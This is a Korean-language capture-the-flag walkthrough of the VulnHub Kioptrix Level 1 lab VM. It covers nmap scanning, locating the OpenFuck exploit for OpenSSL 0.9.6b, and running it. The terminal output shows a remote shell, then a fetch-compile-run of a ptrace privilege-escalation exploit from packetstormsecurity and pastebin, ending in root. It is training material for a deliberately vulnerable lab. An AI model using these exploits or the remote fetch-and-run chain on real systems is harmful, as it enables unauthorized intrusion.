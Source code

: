 # Kioptrix Level 1 (#1)

## Workstation
- Virtual Box : VMware Workstation 16 Player
- OS : kali-linux-2022.01

## Walkthrough
`https://www.vulnhub.com/entry/kioptrix-level-1-1,22/`

KIOPTRIX: LEVEL 1 (#1) 에 대한 가상머신은 위 사이트에서 다운받을 수 있다.

해당 가상머신을 다운받은 후 VMware 워크스테이션에서 열어 활성화 시킨다.

![kioptrix level 1](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/kioptrix_level_1.png)

가상머신의 아이피 주소를 알기 위해 `ip addr` 명령어를 사용해 IP 대역을 확인한다.

![ip addr](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/ip_addr.png)

IP 대역을 확인해 보니 192.168.159.0/24 대역을 사용 중이다.

그럼 이 대역에서 사용하는 클라이언트들을 확인하기 위해 `nmap -sn` 명령어를 사용해 확인한다.

![nmap-sn](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/nmap-sn.png)

내 아이피는 `192.168.159.128` 이므로 Kioptrix Level 1의 가상머신 아이피는 `192.168.159.129`이다.

그럼 가상머신에 열려있는 포트와 버전을 알기 위해 `nmap -sT -sV` 명령어로 네트워크 스캔을 한다.

![nmap](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/nmap.png)

80번 포트에 http 서버가 열려있다. 80번 포트에 대한 취약점이 있는지 `searchexploit` 명령어를 버전에 맞게 검색한다.

![searchexploit](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/searchexploit.png)

`OpenSSL/0.9.6b` 에 OpenFuck.c 라는 취약점이 발견됐다. 가장 최신버전인 파일을 `searchexploit -m 47080` 명령어를 사용해 내 디렉터리에 복사해 온다.

![copy](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/copy.png)

복사한 파일을 확인해 보면 다음과 같이 컴파일하라는 명령어가 있다.

![47080](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/47080.png)

그럼 안내해준 명령어를 사용해 해당 파일을 컴파일 한다.

![gcc](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/gcc.png)

컴파일된 파일을 실행해 보면 사용할 수 있는 옵션들이 나오는데, 그 중 취약점으로 발견된 `OpenSSL/0.9.6b` 에 대한 옵션을 찾는다.

![0x6b](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/0x6b.png)

`0x6b` 옵션을 사용해 가상머신의 루트 권한을 획득해 본다.

```
┌──(kali㉿kali)-[~/vulnhub/kioptrix1]
└─$ ./OpenFuck 0x6b 192.168.159.129 443 -c 40

*******************************************************************
* OpenFuck v3.0.4-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 40 of 40
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f81c8
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
d.c; ./exploit; -kmod.c; gcc -o exploit ptrace-kmod.c -B /usr/bin; rm ptrace-kmo 
--15:08:57--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:443... connected!

Unable to establish SSL connection.

Unable to establish SSL connection.
gcc: ptrace-kmod.c: No such file or directory
gcc: No input files
rm: cannot remove `ptrace-kmod.c': No such file or directory
bash: ./exploit: No such file or directory
bash-2.05$ 
bash-2.05$ whoami
whoami
apache
bash-2.05$ 
```

루트 권한을 얻지 못하고 apache 권한을 얻었다. 취약점 공격이 실패 해 확인해 보니 Exploit DB에 업로드된 OpenFuck.c 파일이 이전버전으로 루트 권한을 얻지 못했다. 해당 파일은 삭제 후 다른 OpenFuck 파일을 받아 컴파일하여 실행한다.

`git clone https://github.com/heltonWernik/OpenFuck.git`

![git](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/git.png)

![compile](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/compile.png)

다시 컴파일된  실행해 보면 루트 권한을 얻은 쉘을 얻을 수 있다.

```
┌──(kali㉿kali)-[~/vulnhub/kioptrix1/OpenFuck]
└─$ ./OpenFuck 0x6b 192.168.159.129 443 -c 40             

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 40 of 40
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8050
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
race-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; m/raw/C7v25Xr9 -O pt 
--15:19:17--  https://pastebin.com/raw/C7v25Xr9
           => `ptrace-kmod.c'
Connecting to pastebin.com:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/plain]

    0K ...                                                    @   3.84 MB/s

15:19:19 (3.84 MB/s) - `ptrace-kmod.c' saved [4026]

ptrace-kmod.c:183:1: warning: no newline at end of file
[+] Attached to 6076
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
whoami
root

```
